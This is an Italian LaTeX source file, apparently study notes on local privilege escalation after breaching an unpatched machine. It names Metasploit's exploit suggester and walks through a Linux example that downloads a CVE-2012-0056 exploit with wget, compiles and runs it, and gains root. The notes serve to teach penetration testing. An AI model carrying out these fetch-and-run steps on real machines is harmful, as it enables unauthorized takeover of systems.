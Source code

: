 \documentclass{article}
\begin{document}
\subsubsection{PE su Macchina non aggiornata}
Supponiamo di aver violato una macchina non aggiornata, con una vulnerabilità \textbf{nota}. 
\begin{itemize}
	\item Se l'attaccante ha una Reverse Shell tramite MSF, può verificare se la macchina violata sia vulnerabile a PE tramite il modulo \verb|post/multi/recon/local_exploit_suggester|.
	
	\item Se l'attaccante ha una normale Reverse Shell, può cercare l'exploit su Internet, caricarlo sulla macchina vittima come \verb|wget|, compilarlo se necessario ed infine eseguirlo.
\end{itemize}

\subsubsection{PE su Macchina Linux non aggiornata}
Supponiamo che la macchina violata abbia Linux e di avere una Reverse Shell su di essa che ci permette di dare comandi arbitrari.

Usando il tool \verb|whoami| scopriamo di essere un normale \textbf{utente}, quindi soggetto a restrizioni. Successivamente il comando \verb|lsb_release -a| ci comunica che la macchina usa \textbf{Ubuntu 11.10} a \textbf{32 bit}, vulnerabile a \textbf{CVE 2012-0056}.

Scarichiamo un exploit sulla macchina tramite \verb|wget|:
\begin{verbatim}
wget -O exploit.c http://www.exploit-db.com/download/18411
\end{verbatim}

Lo compiliamo: \verb|gcc -o exploit exploit.c|, lo eseguiamo \verb|./exploit| e aspettiamo che finisca.

Sempre tramite \verb|whoami| scopriamo che siamo \textbf{root}.
\end{document}
